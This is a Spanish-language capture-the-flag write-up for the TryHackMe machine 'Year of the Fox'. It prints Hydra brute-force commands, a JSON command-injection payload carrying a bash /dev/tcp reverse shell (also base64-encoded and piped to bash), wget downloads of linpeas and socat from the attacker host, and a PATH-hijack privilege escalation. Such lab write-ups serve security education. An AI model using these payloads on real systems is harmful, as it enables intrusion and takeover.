

# Year of the Fox

**Platform:** TryHackMe  
**Difficulty:** Hard  
**IP:** 10.10.39.77

---

## Información Inicial
- **Objetivo:** Obtener las tres banderas del usuario web, usuario del sistema y root.
- **Herramientas iniciales:** `Nmap`, `enum4linux`, `Hydra`, `Command Injection`, `Netcat`, `linpeas.sh`, `SSH`,`strings`, `Burpsuite`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap -sC -sV -p- --min-rate 3000 10.10.39.77
```


En este encontramos un servicio Apache corriendo en el puerto 80 y Samba en sus puertos 139 y 445.

Vamos a empezar explorando el primero desde el navegador web, donde nos muestra un inicio de sesión para el que no tenemos credenciales.

Podríamos realizar una fuerza bruta, pero mejor exploraremos Samba por si tuviera algún fichero o usuario para acceder.


Para enumerar el servicio Samba vamos a utilizar la herramienta enum4linux, la cuál nos devuelve dos usuarios (`fox` y `rascal`) y una ruta a la que supuestamente solo podemos acceder con el primer usuario.

```bash 
enum4linux -a  10.10.39.77
```


Igualmente, vamos a realizar una fuerza bruta con los dos usuarios al inicio de sesión del sitio web utilizando el diccionario rockyou.txt.

```bash 
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.49.139 http-get /

hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.49.139 http-get /
```
Por suerte, el ataque es efectivo con el segundo usuario y obtenemos su contraseña.


Con las credenciales obtenidas entramos al sitio web, que trata de una búsqueda en el sistema a través del ingreso de rutas.
Si escribimos un punto para listar los ficheros actuales nos devuelve el nombre de tres de ellos.


Capturamos la sesión con Burpsuite y hacemos pruebas para intentar inyectar código, pero al escribir el carácter '/' lo bloquea. Sin embargo, el carácter '\' sí que lo da por válido pero tras muchas pruebas no conseguimos nada. 


Otra prueba era realizar una reverse shell a partir del contenido del atributo, de manera que después de responder al target con "\" pondríamos un ';' y escribiríamos un comando para solicitar la shell a nuestro Netcat.

```bash
"target":"\";bash -i >& /dev/tcp/10.8.29.132/4444 0>&1
```

> En la captura se ve la dirección IP incorrecta, pero corregida tampoco devolvía nada. 


Esta prueba no daba ningún problema pero tampoco recibíamos ninguna shell, de manera que se podría tratar de codificar el comando en base64. Lo único es que se debería de acompañar de los comandos pertinentes para descifrar el comando una vez fuera a ser ejecutado, para que el sitio web lo aceptara pero que una vez dentro se pueda ejecutar.

Reverse-shell utilizada: `sh -i >& /dev/tcp/10.8.29.132/4444 0>&1`

Código inyectado:
```bash
"target":"\";echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuOC4yOS4xMzIvNDQ0NCAwPiYx|base64 -d |bash\n"
```


Y finalmente recibimos la conexión en nuestro Netcat. Entramos como www-data y procedemos a analizar el sistema.


Vamos a abrir un servidor Python en nuestra máquina y a descargarnos la herramienta linpeas.sh desde la máquina víctima para poder realizar un análisis más detallado.

Máquina local:
```bash
python -m http.server
```

Máquina víctima:
```bash
cd /tmp

wget http://10.8.29.132:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```


Entre las rutas destacadas que nos muestra, vemos un fichero dentro de /var/www llamado `web-flag.txt` por lo que lo listamos y encontramos la primera bandera.



La herramienta linpeas.sh también nos desvela algo sobre los puertos activos, y es que tenemos SSH corriendo en local en el puerto 22.

Suponemos que aquí entrará en juego el usuario `fox`, pero antes tenemos que exponer el servicio para poder acceder desde nuestra máquina local.


La herramienta más conocida para exponer el servicio de la máquina víctima es `socat`. Descargaremos el fichero de la herramienta en nuestra máquina local y al igual que antes, la descargaremos desde la víctima.

Al ejecutarlo, estaremos abriendo el puerto de la máquina 1212 y redirigiendo el servicio del puerto 22 por este.

```bash
wget http://10.8.29.132:8000/socat

chmod +x socat

./socat TCP-LISTEN:1212,reuseaddr,fork tcp:127.0.0.1:22
```


En este punto, podemos enumerar el puerto 1212 de la máquina víctima por lo que ya podemos realizar un ataque de fuerza bruta a SSH con el usuario `fox` y el diccionario rockyou.txt.

```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt 10.10.39.77 -s 1212 ssh
```


Accederemos a SSH con las credenciales. La bandera del usuario se encuentra en el directorio personal del usuario actual.

```bash
cat user-flag.txt
```

Si miramos los permisos con el comando `sudo -l` encontramos un fichero en /usr/sbin/shutdown.


Descargaremos el fichero shutdown en la máquina local para analizarlo con strings. En su contenido destaca `poweroff`.

```bash
scp -P 1212 fox@10.10.49.139:/usr/sbin/shutdown .
```


Buscando en el sistema de la máquina víctima, encontramos que se trata de un fichero que se encarga de apagar el sistema.
Sin embargo, si volvemos a mirar el resultado de `sudo -l` y lo comparamos con el resultado en nuestro equipo, falta una variable `secure_path` que contiene las rutas absolutas del PATH. 

Para realizar esto, crearemos un fichero en el directorio personal del usuario cuyo contenido será invocar una Bash como root, modificaremos el PATH para que apunte hacia nuestra ubicación y luego ejecutaremos el fichero shutdown.

```bash
echo "/bin/bash" > poweroff

chmod +x poweroff

export PATH=$(pwd):$PATH

sudo shutdown
```


Por último, en el directorio del usuario root nos dice que utilicemos `find` para encontrar la tercera bandera, de manera que usaremos el siguiente comando para buscar ficheros que contengan la palabra "root".

```bash
find / -type f 2>/dev/null | grep -i 'root'
```

En el directorio del usuario rascal hayamos un fichero (el último fichero que encuentra find) y dentro del mismo hayamos la tercera bandera, la de administrador.


